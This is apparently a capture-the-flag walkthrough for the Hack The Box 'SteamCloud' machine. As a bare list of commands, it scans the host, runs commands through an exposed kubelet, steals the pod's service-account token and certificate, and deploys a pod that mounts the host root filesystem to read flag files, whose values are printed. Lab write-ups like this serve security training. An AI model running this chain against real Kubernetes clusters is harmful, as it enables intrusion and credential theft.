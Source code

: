 ping 10.10.11.133
whatweb 10.10.11.133 -> return error

echo "10.10.11.133 steamcloud.htb" >> /etc/hosts

nmap steamcloud.htb
nmap -sCV -O steamcloud.htb
nmap steamcloud.htb -p- -min-rate 10000 -> etcd -> kubernetes
ports 10250 and 8443 are Kubernetes API

dirsearch -u https://steamcloud.htb:10250 -> find /logs
inside logs -> pods -> kubernetes

intall kubeletctl (https://github.com/cyberark/kubeletctl)
kubeletctl -s steamcloud.htb pods

kubeletctl -s steamcloud.htb exec "id" -p nginx -c nginx
kubeletctl -s steamcloud.htb exec "ls /root" -p nginx -c nginx
kubeletctl -s steamcloud.htb exec "cat /root/user.txt" -p nginx -c nginx -> get flag (7a44160d665305eacb266895a39e62c1)

kubeletctl -s steamcloud.htb exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
kubeletctl -s steamcloud.htb exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
kubeletctl -s steamcloud.htb exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token

export token=$(kubeletctl -s steamcloud.htb exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)

install kubectl (https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)

kubectl -s https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
kubectl -s https:10.10.11.133:8443 --certificate-authority=ca.crt --token=$token auth can-i --list -> take a look on get, create and list permissions

kubectl -s https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod nginx -o yaml -> take a look on namespace (default) and image (nginx:1.14.2)

nano root-pod.yaml
-----------------------------------------------------------------------
apiVersion: v1 
kind: Pod
metadata:
  name: root-pod
  namespace: default
spec:
  containers:
  - name: root-pod
    image: nginx:1.14.2
    volumeMounts: 
    - mountPath: /mnt
      name: root
  volumes:
  - name: root
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
-----------------------------------------------------------------------

kubectl -s https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token apply -f root-pod.yaml 
kubectl -s https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod -> check created pod
kubeletctl -s steamcloud.htb pods

kubeletctl -s steamcloud.htb exec "id" -p root-pod -c root-pod
kubeletctl -s steamcloud.htb exec "cat /mnt/root/root.txt" -p root-pod -c root-pod -> get flag (024d0435482f550d429854c9259f21cc)